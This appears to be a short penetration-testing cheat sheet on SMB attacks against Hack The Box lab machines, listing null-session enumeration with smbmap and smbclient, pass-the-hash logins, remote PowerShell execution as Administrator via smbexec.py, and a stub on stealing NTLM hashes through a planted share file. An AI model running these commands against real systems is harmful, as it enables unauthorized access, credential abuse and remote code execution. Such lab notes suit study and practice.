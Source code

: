 # SMB

## Null Session

**smbmap**:

```
 smbmap -H querier.htb -u anonymous -d localhost
```

Use the -R flag to recursively list everything.

**smbclient**:&#x20;

```
smbclient -L \querier.htb
```

Enter any password or supply the --no-pass flag.

## Pass The Hash

The NTLM hash of a user’s password is used in the NTLM challenge-response authentication protocol. Therefore, if you know the user’s NTLM hash, you can impersonate that user for services that rely on NTLM challenge-response.

_Note: If you just have the NT hash, then you can just input the NT hash twice. No one really checks the LM hash anyways._

```
smbmap -u USERNAME -p 0B186E661BBDBDCF6047784DE8B9FD8B:0B186E661BBDBDCF6047784DE8B9FD8B -H HOST
```

Execute commands over SMB (requires write permissions):

```
smbexec.py jeeves/Administrator@jeeves.htb -hashes "aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00" -shell-type "powershell"
```

## NTLM Hash Theft

If you have access to a network share, then you can drop a file in there that will result in a user's NTLM hash being stolen when they navigate to that share.&#x20;

TODO: Link main article in post exploitation

